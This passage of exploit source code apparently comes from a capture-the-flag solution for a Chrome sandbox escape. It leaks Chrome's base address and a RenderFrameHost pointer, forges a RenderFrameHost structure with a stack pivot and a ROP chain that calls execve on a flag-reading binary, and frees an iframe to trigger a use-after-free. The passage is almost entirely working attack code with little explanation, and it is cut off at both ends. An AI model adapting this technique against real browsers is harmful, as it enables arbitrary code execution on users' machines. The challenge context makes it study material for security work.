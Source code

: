 ```html
			let d = (await p.getData("yeet"+i,0x200)).data;
			let u8 = new Uint8Array(d)
			let u64 = new BigInt64Array(u8.buffer);
			for(let j = 5;j<u64.length;j++){
				let l = u64[j]&BigInt(0xf00000000000)
				let h = u64[j]&BigInt(0x000000000fff)
				if((l==BigInt(0x500000000000))&&h==BigInt(0x7a0)){
					//console.log('0x'+u64[j].toString(16));
					document.write('0x'+u64[j].toString(16)+'<br/>');
					chromeBase = u64[j]-BigInt(0x9fb67a0);
					renderFrameHost = u64[j+1];
					break;
				}
			}
		}
		document.write("ChromeBase: 0x"+chromeBase.toString(16) + '<br/>');
		document.write("renderFrameHost: 0x"+renderFrameHost.toString(16) + '<br/>');
        
        // 伪造 render_frame_host_ 结构
		const kRenderFrameHostSize = 0xc28; 
		var frameData = new ArrayBuffer(kRenderFrameHostSize);
		var frameData8 = new Uint8Array(frameData).fill(0x0);
		var frameDataView = new DataView(frameData)
		var ropChainView = new BigInt64Array(frameData,0x10); // 从frameData+0x10 处开始给ropChainView
		frameDataView.setBigInt64(0x160+0x10,chromeBase + 0x880dee8n,true); //xchg rax, rsp
		frameDataView.setBigInt64(0x180, 0x2f686f6d652f6368n,false);
		frameDataView.setBigInt64(0x188, 0x726f6d652f666c61n,false);
		frameDataView.setBigInt64(0x190, 0x675f7072696e7465n,false);// /home/chrome/flag_printer\0; big-endian
		frameDataView.setBigInt64(0x198, 0x7200000000000000n,false);// /home/chrome/flag_printer\0; big-endian
		ropChainView[0] = 0xdeadbeef3n; // RIP rbp :<
		ropChainView[1] = chromeBase + 0x2e4630fn; //pop rdi;
		ropChainView[2] = 0x4141414141414141n; // frameaddr+0x180
		ropChainView[3] = chromeBase + 0x2e651ddn; // pop rax;
		ropChainView[4] = chromeBase + 0x9efca30n; // execve@plt
		ropChainView[5] = chromeBase + 0x8d08a16n; // xor rsi, rsi; pop rbp; jmp rax
		ropChainView[6] = 0xdeadbeefn; // rbp
		//Constrait: rdx = 0; rdi pointed to ./flag_reader\0
		var allocateFrame = () =>{
			var frame = document.createElement("iframe");
			frame.src = "/iframe.html"
			document.body.appendChild(frame);
			return frame;
		}
		var frame = allocateFrame();
		frame.contentWindow.addEventListener("DOMContentLoaded",async ()=>{
			if(!(await frame.contentWindow.leak())){
				console.log("frame leak failed!");
				return
			}
			if(frame.contentWindow.chromeBase!=chromeBase){
				console.log("different chrome base!! wtf!")
				return
			}
			var frameAddr = frame.contentWindow.renderFrameHost;
			//console.log("frame addr:0x"+frameAddr.toString(16));
			frameDataView.setBigInt64(0,frameAddr+0x10n,true); //vtable/ rax
            ropChainView[2] = frameAddr + 0x180n;
			//stashing the pointer of iframe.
			var frameStore = frame.contentWindow.p;
			//freeeee
			frame.remove();  // 释放render_frame_host_
```